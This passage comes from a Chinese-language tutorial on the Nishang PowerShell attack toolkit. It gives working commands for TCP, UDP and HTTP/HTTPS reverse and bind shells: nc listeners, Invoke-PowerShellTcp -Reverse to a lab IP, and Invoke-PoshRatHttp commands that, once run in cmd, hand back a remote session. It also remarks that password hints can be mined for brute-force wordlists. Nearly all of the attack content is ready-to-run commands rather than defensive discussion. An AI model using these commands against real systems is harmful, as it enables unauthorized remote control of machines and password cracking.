 ![PowerShell攻防进阶篇：nishang工具用法详解](http://www.4hou.com/uploads/20170628/1498660097480497.png)

感觉没什么用，但是别小看这个功能，有的时候可以根据提示信息来生成密码文件，大大提高爆破的成功率。还有的人会将明文密码记录在这个提示信息中。我曾经就是。。

## 4.2.0各式各样的反弹

既然说是神器，那自然有牛的一面，各式各样的shell，任由你反弹，跟msf一样。

### TCP的shell

既然TCP，那就有正反向链接，先来反向链接（需要NC）

### 反向链接：

NC下执行 : nc -lvp 3333

在PowerShell下执行：Invoke-PowerShellTcp -Reverse -IPAddress 192.168.12.110 -Port 3333

![PowerShell攻防进阶篇：nishang工具用法详解](http://www.4hou.com/uploads/20170628/1498660106925452.png)

### 正向链接:

PowerShell下执行:Invoke-PowerShellTcp -Bind -Port 3333

NC下执行:nc -nv 192.168.12.103 3333

![PowerShell攻防进阶篇：nishang工具用法详解](http://www.4hou.com/uploads/20170628/1498660116426754.png)

### \###UDP 的Shell

只是单纯的将Invoke-PowerShellTcp改为Invoke-PowerShellUdp，其他命令。之后就是nc的命令改变了

正向连接:nc -nvu 192.168.12.103 3333

反向连接:nc -lup 3333

一波题外话，看不懂nc命令的童鞋：[https://www.explainshell.com](https://www.explainshell.com/)

可以到这里，命令可以解析，什么都可以，不止是nc，linux命令都行

![PowerShell攻防进阶篇：nishang工具用法详解](http://www.4hou.com/uploads/20170628/1498660125325234.png)

就是都是英文，不过比较简单了

### \###HTTP/HTTPS的shell

```
`HTTP:Invoke-PoshRatHttp -IPAddress 192.168.12.103 -Port 3333``HTTPS:Invoke-PoshRatHttps -IPAddress 192.168.12.103 -Port 3333`
```

执行完之后会生成一道命令，HTTP和HTTPS一样，这里我只演示是HTTP

![PowerShell攻防进阶篇：nishang工具用法详解](http://www.4hou.com/uploads/20170628/1498660133149031.png)

将这道命令拖入cmd中执行，之后命令行消失，在本机Powershell下返回了一个会话

